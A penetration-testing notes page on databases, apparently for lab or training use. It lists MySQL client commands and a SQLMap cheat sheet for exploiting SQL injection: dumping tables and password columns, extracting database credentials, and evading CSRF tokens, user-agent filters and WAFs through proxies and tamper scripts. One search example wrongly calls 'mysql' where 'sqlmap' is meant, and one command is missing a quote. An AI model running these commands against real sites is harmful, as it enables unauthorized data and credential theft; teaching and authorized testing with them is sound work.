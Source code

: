 ```yaml
---
description: >-
  Databases vary widely, each requiring specific commands, tools, and syntax.
  This chapter provides guidance on navigating these differences.
---
```


# Databases

<mark style="background-color:red;">This chapter is in-progress.</mark>

<mark style="color:blue;">Check the index on the right to navigate this page more easily.</mark>

## Database Management Systems

### MySQL

Connect to a MySQL server

```bash
# Local service
mysql -u acuity -pSuperStr00ng!

# Remote service
mysql -u acuity -p -h <IP> -P 3306
```

List all databases

```sql
show databases;
```

Select a database

```sql
use name_of_database;
```

List all tables in the active database

```sql
show tables;
```

List content of a table

```sql
# List all content
select * from name_of_table;

# Define a more specific selection
select username, password from users where username = 'HTB';
```

### Microsoft SQL

### PostgreSQL



***

## Tools

### SQLMap

An open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. [https://sqlmap.org/](https://sqlmap.org/)

#### Basic Data Enumeration

```bash
# Check version, user, db name and admin permissions
sqlmap -u "http://www.acuity.lab/?id=1" --banner --current-user --current-db --is-dba
```

#### Table Enumeration

```bash
# Dump everything from MySQL server (no system databases) and require no user input
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs --batch

# Dump everything from a specific database
sqlmap -u "http://www.example.com/?id=1" -D database --dump

# Enumerate all tables within the specified DB
sqlmap -u "http://www.example.com/?id=1" --tables -D database

# Dump all data from the specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database

# Dump only specific columns from specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database -C name,password

# Limit rows dumped by ordinal numbers
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --start=2 --stop=3

# Dump data based on matched conditions
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name = 'acuity'"

# alternative
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name LIKE 'acu%'"
```

#### Search for columns, tables or databases

Switch `--search` needs to be used in conjunction with one of the following support options:

* `-C` following a list of comma-separated column names to look for across the whole database management system.
* `-T` following a list of comma-separated table names to look for across the whole database management system.
* `-D` following a list of comma-separated database names to look for across the database management system.

Example:

```bash
# Search for tables containg "cred" in their name across DBMS
mysql -u "http://www.example.com/?id=1" --search -T cred
```

#### Dumping database-specific credentials

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

#### Bypassing security measures

```bash
# Using random values
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp

# Bypassing anti-CSRF
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token

# Using proxy
sqlmap -u "http://www.example.com/" --proxy="socks4://203.0.113.50:3128"

# Supplying a proxy list
sqlmap -u "http://www.example.com/" --proxy-file=/opt/proxys/list.txt

# Bypassing User-Agent filters
sqlmap -u "http://www.example.com/" --random-agent

# Tamper Scripts
sqlmap -u "http://www.example.com/" --tamper=<script.py>
```
